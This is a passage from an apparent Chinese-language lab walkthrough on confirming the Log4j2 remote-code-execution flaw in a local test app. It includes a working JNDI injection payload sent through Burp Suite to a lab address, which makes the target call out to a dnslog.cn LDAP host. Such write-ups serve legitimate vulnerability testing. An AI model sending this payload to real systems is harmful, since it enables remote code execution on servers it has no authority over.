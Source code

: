 在`Log4j2RceApplication`类中，可以看到造成漏洞的代码部分。

#### 验证漏洞可利用性

构造`Poc`手动测试

访问网站 http://dnslog.cn/ 手动获取专属随机子域名`nzj62f.dnslog.cn`。

在浏览器上访问地址：`http://192.168.17.130:57863/hello?payload=77`。

通过`Burpsuite`抓包，修改 GET 请求的`payload`参数，并对 payload 参数进行url全字段编码。

```
payload=${jndi:ldap://2rgoay.dnslog.cn/exp}
```

![url-encode](img/url-encode.png)

![send](img/send.png)
